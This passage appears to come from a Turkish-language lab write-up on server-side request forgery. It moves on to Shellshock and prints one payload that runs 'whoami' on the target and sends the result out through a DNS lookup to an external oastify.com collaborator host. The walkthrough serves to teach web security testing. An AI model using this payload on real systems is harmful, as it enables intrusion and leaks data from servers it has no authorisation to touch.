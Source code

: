 ![Untitled](0x16-Server-Side-Request-Forgery-Nedir-d3c4b2ebcb764d66b80606cea77bf5a5/Untitled-34.png)

Bu noktada artık **Shellshock** exploit’lerine bakmamız lazım. Kullanacağımız payload, lab ortamının da bizden istediği bilgileri elde edebileceğimiz bir şekilde olması gerektiğinden dolayı bu şekilde olmalıdır; 

```python
() { :; }; nslookup $(whoami).9r1gkbi8d28pf6aba2y65dutokubi26r.oastify.com
```

![Untitled](0x16-Server-Side-Request-Forgery-Nedir-d3c4b2ebcb764d66b80606cea77bf5a5/Untitled-35.png)
